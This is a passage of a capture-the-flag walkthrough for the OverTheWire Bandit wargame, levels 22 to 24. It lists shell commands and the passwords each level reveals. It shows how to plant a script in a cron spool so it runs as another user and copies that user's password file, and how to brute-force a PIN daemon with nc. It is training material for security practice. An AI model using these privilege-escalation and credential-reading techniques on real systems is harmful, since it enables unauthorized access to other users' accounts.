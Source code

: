Same process as before, but I had to reply the script in order to get the name of the _tmp_ file, in which the password was being copied into.

```
cat /etc/cron.d/*
cat /usr/bin/cronjob_bandit23.sh
echo I am user bandit23 | md5sum | cut -d ' ' -f 1
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```
|Password|
|--------|
|    QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G|

### Level 23:

A `cron` is running periodically executing scripts, so all we have to do is write one to do whatever we want to.

```
cat /etc/cron.d/*
cat /usr/bin/cronjob_bandit24.sh
mktemp -d
cd /tmp/tmp.Z3JcS58pR4
nano script.sh
touch password.txt
chmod 777 password.txt
chmod 777 /tmp/tmp.Z3JcS58pR4
chmod 777 script.sh
cp script.sh /var/spool/bandit24/foo/script.sh
cat password.txt
```

script:
```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.Z3JcS58pR4/password.txt
```
|Password|
|--------|
|    VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar|

### Level 24:

We write a script to output the password plus an iterating 4-digit pincode. After saving the combinations to a file, we pipe it to the 30002 daemon and exclude the “Wrong” output messages.

```
nano script.sh
chmod +x script.sh
./script.sh > dictionary.txt
cat dictionary.txt | nc localhost 30002 | grep -Ev "Wrong|Please"
```

script:
